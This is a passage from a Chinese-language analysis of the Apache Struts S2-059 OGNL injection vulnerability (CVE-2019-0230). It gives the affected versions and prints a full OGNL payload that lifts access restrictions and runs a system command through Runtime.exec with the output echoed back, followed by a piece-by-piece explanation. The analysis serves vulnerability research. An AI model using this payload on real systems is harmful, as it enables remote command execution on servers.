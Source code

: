 [![](https://p4.ssl.qhimg.com/t018379c8c52069e2d4.png)](https://p4.ssl.qhimg.com/t018379c8c52069e2d4.png)

这里可以看到`LabelTag.class`继承了`AbstractUITag.class`

[![](https://p3.ssl.qhimg.com/t01a61f330057afbcaf.png)](https://p3.ssl.qhimg.com/t01a61f330057afbcaf.png)

关于版本问题：

官方说明影响范围是Apache Struts 2.0.0 – 2.5.20，这里测试了2.1.1和2.3.24版本。

不同的版本对于沙盒的绕过不同，所用的到的poc绕过也就有出入，再高版本2.5.16之后的沙盒目前没有公开绕过方法。我测试了稍低版本`Struts 2.2.1`与稍高版本`Struts 2.3.24`，均可以控制输入值。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.anquanke.com/post/id/216629/image-20200903112402259/)

关于回显：

```
%`{`#_memberAccess.allowPrivateAccess=true,#_memberAccess.allowStaticMethodAccess=true,#_memberAccess.excludedClasses=#_memberAccess.acceptProperties,#_memberAccess.excludedPackageNamePatterns=#_memberAccess.acceptProperties,#res=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),#a=@java.lang.Runtime@getRuntime(),#s=new java.util.Scanner(#a.exec('ls -al').getInputStream()).useDelimiter('\\\\A'),#str=#s.hasNext()?#s.next():'',#res.print(#str),#res.close()
`}`
```

`OgnlContext`的`_memberAccess`变量进行了访问控制限制，决定了用哪些类，哪些包，哪些方法可以被`OGNL`表达式所使用。

所以其中poc中需要设置`#_memberAccess.allowPrivateAccess=true`用来授权访问`private`方法，`#_memberAccess.allowStaticMethodAccess=true`用来授权允许调用静态方法，

`#_memberAccess.excludedClasses=#_memberAccess.acceptProperties`用来将受限的类名设置为空

`#_memberAccess.excludedPackageNamePatterns=#_memberAccess.acceptProperties`用来将受限的包名设置为空

`#res=[@org](https://github.com/org).apache.struts2.ServletActionContext[@getResponse](https://github.com/getResponse)().getWriter()`返回`HttpServletResponse`实例获取`respons`对象并回显。

`#a=[@java](https://github.com/java).lang.Runtime[@getRuntime](https://github.com/getRuntime)(),#s=new java.util.Scanner(#a.exec('ls -al').getInputStream()).useDelimiter('\\\\A'),#str=#s.hasNext()?#s.next():'',#res.print(#str),#res.close()`执行系统命令，使用`java.util.Scanner`一个文本扫描器，执行命令`ls -al`，将目录下的内容回显出来。

至于为什么加`%`{``}``，在之前的分析中已经提及。



## 参考
- [https://cwiki.apache.org/confluence/display/WW/S2-059](https://cwiki.apache.org/confluence/display/WW/S2-059)
- [http://blog.topsec.com.cn/struts2-s2-059-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/](http://blog.topsec.com.cn/struts2-s2-059-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
- [https://xw.qq.com/cmsid/20200816A03TC200](https://xw.qq.com/cmsid/20200816A03TC200)
- [https://github.com/ramoncjs3/CVE-2019-0230/commit/40f221f8fd60de78ca84aaf0365b7e4fdfd8105a](https://github.com/ramoncjs3/CVE-2019-0230/commit/40f221f8fd60de78ca84aaf0365b7e4fdfd8105a)
- [https://www.freebuf.com/vuls/229080.html](https://www.freebuf.com/vuls/229080.html)